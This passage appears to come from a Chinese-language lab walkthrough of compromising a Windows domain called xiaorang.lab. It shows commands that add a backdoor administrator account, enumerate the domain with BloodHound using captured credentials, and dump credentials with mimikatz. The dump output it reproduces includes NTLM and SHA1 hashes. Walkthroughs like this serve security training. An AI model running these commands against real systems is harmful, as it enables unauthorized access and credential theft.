 ```plain
net user test P@ssw0rd /add
net localgroup administrators test /add
```

远程连接后，可以利用 `BloodHound` 搜集内网信息

```plain
proxychains bloodhound-python -u zhangwen -p 'QT62f3gBhK1' -d xiaorang.lab -c all -ns 172.22.13.6 --zip --dns-tcp
```

[![](assets/1710899037-cba292120569e8938ab60a10a9343601.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240227205212-06eaf520-d56f-1.png)

上传一个 `mimikatz` 进行提取账号密码信息

```plain
mimikatz.exe "privilege::debug" "log" "sekurlsa::logonpasswords" "exit" > test.txt
```

```plain
Authentication Id : 0 ; 219475 (00000000:00035953)
Session           : Service from 0
User Name         : chenglei
Domain            : XIAORANG
Logon Server      : WIN-DC
Logon Time        : 2023/10/4 16:46:14
SID               : S-1-5-21-3269458654-3569381900-10559451-1105
    msv :   
     [00000003] Primary
     * Username : chenglei
     * Domain   : XIAORANG
     * NTLM     : 0c00801c30594a1b8eaa889d237c5382
     * SHA1     : e8848f8a454e08957ec9814b9709129b7101fad7
     * DPAPI    : 89b179dc738db098372c365602b7b0f4
    tspkg : 
    wdigest :   
     * Username : chenglei
     * Domain   : XIAORANG
     * Password : (null)
    kerberos :  
     * Username : chenglei
```